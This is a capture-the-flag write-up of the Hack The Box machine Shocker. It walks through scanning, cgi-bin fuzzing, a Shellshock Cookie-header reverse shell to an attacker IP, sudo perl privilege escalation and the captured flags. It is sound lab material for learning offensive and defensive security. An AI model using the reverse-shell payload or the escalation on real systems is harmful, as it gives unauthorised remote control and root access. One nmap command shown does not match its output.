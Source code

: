# Shocker by k0rriban

## htbexplorer report
|  Name      |  IP Address   |  Operating System  |  Points  |  Rating  |  User Owns  |  Root Owns  |  Retired  |  Release Date  |  Retired Date  |  Free Lab  |  ID   | 
| :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: |
| Shocker  | 10.10.10.56  | Linux              | 20       | 4.7      | 18147       | 18016       | Yes       | 2017-09-30     | 2018-02-17     | No         | 108          |

## Summary
1. Scan ports -> `80`,2222
2. Enumerate port 80 -> `http://10.10.10.56/cgi-bin/user.sh`
3. Inject reverse shell on `Cookie` header -> User shell as `shelly` on host
4. List sudoers with `sudo -l` -> `NOPASSWD: /usr/bin/perl`
5. Exploit `perl` to gain root -> `Root` user on host

## Enumeration
### OS
|  TTL      |  OS  |
| :-: | :-: |
| +- 64    | Linux |
| +- 128   | Windows |

As we can see in the code snippet below, the operating system is Linux.
```bash
❯ ping -c 1 10.10.10.56
PING 10.10.10.56 (10.10.10.56) 56(84) bytes of data.
64 bytes from 10.10.10.56: icmp_seq=1 ttl=63 time=39.8 ms
```

### Nmap port scan
First, we will scan the host for open ports.
```bash
❯ sudo nmap -p- -sS --min-rate 5000 10.10.10.56 -v -Pn -n -oG Enum/allPorts
```
With the utility `extractPorts` we list and copy the open ports:
```bash
❯ extractPorts Enum/allPorts

[*] Extracting information...

	[*] IP Address:  10.10.10.56 

	[*] Open ports:  80,2222 


[*] Ports have been copied to clipboard...
```
Run a detailed scan on the open ports:
```bash
❯ nmap -p23 -A -n 10.10.11.107 -v -oN Enum/targeted
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Site doesn\'t have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
```

#### Final nmap report
| Port  |  Service  |  Version  | Extra |
| :-: | :-: | :-: | :-: |
| 80    | http      | Apache httpd 2.4.18 | Ubuntu | 
| 2222  | ssh       | OpenSSH 7.2p2 Ubuntu | 4ubuntu2.2 |

### HTTP Enumeration
#### Technology scan
```bash
❯ whatweb 10.10.10.56
http://10.10.10.56 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.56]
```
Toguether with `wappalyzer` we can see:
| Technology | Version | Detail |
| :-: | :-: | :-: |
| Apache | 2.4.18 | Ubuntu |

#### Web-Content Discovery
We will use `wfuzz` to enumerate the web-content of the host:
```bash
❯ wfuzz -c -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc 404 --hh 137 "http://10.10.10.56/FUZZ"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.56/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000095524:   403        11 L     32 W       299 Ch      "server-status"   
```
We can try enumerating folders explicitly adding a `/` at the end of the URL:
```bash
❯ wfuzz -c -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc 404 --hh 137 "http://10.10.10.56/FUZZ/"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.56/FUZZ/
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000000083:   403        11 L     32 W       292 Ch      "icons"           
000000035:   403        11 L     32 W       294 Ch      "cgi-bin"         
000095524:   403        11 L     32 W       300 Ch      "server-status"   
```
When we access to `/cgi-bin` we obtain a code 404, while when we access to `/cgi-bin/` we obtain a code 403.
If we enumerate the files contained in cgi-bin we can see:
```bash
❯ wfuzz -c -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc 404 --hh 294 "http://10.10.10.56/cgi-bin/FUZZ.sh"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.56/cgi-bin/FUZZ.sh
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000000125:   200        7 L      17 W       118 Ch      "user"     
```
We found the file `/cgi-bin/user.sh`, returning a 200 code.

## ShellShock exploit
If we look up `cgi-bin exploit` on google, we can find the next [exploit](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi#shellshock):
```bash
❯ curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.18/3333 0>&1' http://10.10.10.56/cgi-bin/user.sh
```
And if we listen on port 3333:
```bash
❯ nc -nlvp 3333
Connection from 10.10.10.56:59912
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ whoami
whoami
shelly
shelly@Shocker:/usr/lib/cgi-bin$ hostname -I
hostname -I
10.10.10.56 dead:beef::250:56ff:feb9:830b 
```
We obtained a user shell as `shelly`.

## Privilege escalation
The first thing we should look while escalating are `sudo -l` and `/etc/sudoers`:
```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l 
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```
We see that `shelly` can execute `/usr/bin/perl` as root without password, so we can just:
```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo /usr/bin/perl -e 'exec "/bin/bash"'
sudo /usr/bin/perl -e 'exec "/bin/bash"'
whoami 
root
hostname -I
10.10.10.56 dead:beef::250:56ff:feb9:830b
```
We obtained a root shell as `root`.

## CVE
### [CVE-2014-6271](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-6271)
GNU Bash through 4.3 processes trailing strings after function definitions in the values of environment variables, which allows remote attackers to execute arbitrary code via a crafted environment, as demonstrated by vectors involving the ForceCommand feature in OpenSSH sshd, the mod_cgi and mod_cgid modules in the Apache HTTP Server, scripts executed by unspecified DHCP clients, and other situations in which setting the environment occurs across a privilege boundary from Bash execution, aka "ShellShock." NOTE: the original fix for this issue was incorrect; CVE-2014-7169 has been assigned to cover the vulnerability that is still present after the incorrect fix. 

## Machine flags
| Type | Flag | Blood | Date |
| :-: | :-: | :-: | :-: |
| User | 2ec24e11320026d1e70ff3e16695b233 | No | 06-06-2022|
| Root | 52c2715605d70c7619030560dc1ca467 | No | 06-06-2022|

## References
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi#shellshock
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-6271
- https://gtfobins.github.io/gtfobins/perl/#sudo